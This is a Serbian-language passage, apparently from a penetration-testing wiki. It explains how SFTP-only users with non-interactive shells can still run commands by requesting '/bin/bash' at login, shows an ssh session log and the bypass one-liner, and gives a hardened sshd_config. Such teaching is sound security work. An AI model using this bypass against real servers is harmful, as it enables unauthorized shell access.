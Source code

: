 ### SFTP Grubom silom

* [**SFTP Grubom silom**](../generic-methodologies-and-resources/brute-force.md#sftp)

### Izvršavanje komandi putem SFTP-a

Postoji česta greška u postavkama SFTP-a, gde administratori nameravaju da korisnici razmenjuju fajlove bez omogućavanja udaljenog pristupa ljusci. Uprkos postavljanju korisnika sa neinteraktivnim ljuskama (npr. `/usr/bin/nologin`) i ograničavanjem ih na određeni direktorijum, ostaje sigurnosna rupa. **Korisnici mogu zaobići ove restrikcije** tražeći izvršavanje komande (kao što je `/bin/bash`) odmah nakon prijavljivanja, pre nego što njihova određena neinteraktivna ljuska preuzme kontrolu. To omogućava neovlašćeno izvršavanje komandi, podrivajući namenjene sigurnosne mere.

[Primer odavde](https://community.turgensec.com/ssh-hacking-guide/):

```bash
ssh -v noraj@192.168.1.94 id
...
Password:
debug1: Authentication succeeded (keyboard-interactive).
Authenticated to 192.168.1.94 ([192.168.1.94]:22).
debug1: channel 0: new [client-session]
debug1: Requesting no-more-sessions@openssh.com
debug1: Entering interactive session.
debug1: pledge: network
debug1: client_input_global_request: rtype hostkeys-00@openssh.com want_reply 0
debug1: Sending command: id
debug1: client_input_channel_req: channel 0 rtype exit-status reply 0
debug1: client_input_channel_req: channel 0 rtype eow@openssh.com reply 0
uid=1000(noraj) gid=100(users) groups=100(users)
debug1: channel 0: free: client-session, nchannels 1
Transferred: sent 2412, received 2480 bytes, in 0.1 seconds
Bytes per second: sent 43133.4, received 44349.5
debug1: Exit status 0

$ ssh noraj@192.168.1.94 /bin/bash
```

Evo primera sigurne SFTP konfiguracije (`/etc/ssh/sshd_config` - openSSH) za korisnika `noraj`:

```
Match User noraj
ChrootDirectory %h
ForceCommand internal-sftp
AllowTcpForwarding no
PermitTunnel no
X11Forwarding no
PermitTTY no
```

Ova konfiguracija će dozvoliti samo SFTP: onemogućavanje pristupa ljusci forsiranjem start komande i onemogućavanje TTY pristupa, ali takođe onemogućavanje svih vrsta port forwarding-a ili tuneliranja.

### SFTP Tuneliranje
